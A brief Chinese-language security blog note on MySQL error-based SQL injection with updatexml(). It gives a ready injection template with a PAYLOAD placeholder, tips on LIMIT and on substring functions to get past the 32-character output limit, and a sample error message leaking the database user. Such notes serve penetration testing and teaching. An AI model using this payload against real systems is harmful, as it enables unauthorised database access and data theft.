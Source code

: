 ```yaml
---
title: "MySQL updatexml 注入"
date: 2018-02-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mysql','sqli']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


MySQL updatexml 注入

<!--more-->

`UPDATEXML (XML_document, XPath_string, new_value); `

XPath_string: Xpath 语法.

`id=1 and updatexml(1,concat(0x7e,(PAYLOAD),0x7e),1)`

PAYLOAD 自行替换 记得加上 limit.

updatexml() 最大返回 32 位 可以用 left() or substr() mid() 来截取后面的内容.

`XPATH syntax error:'~root@localhost~'`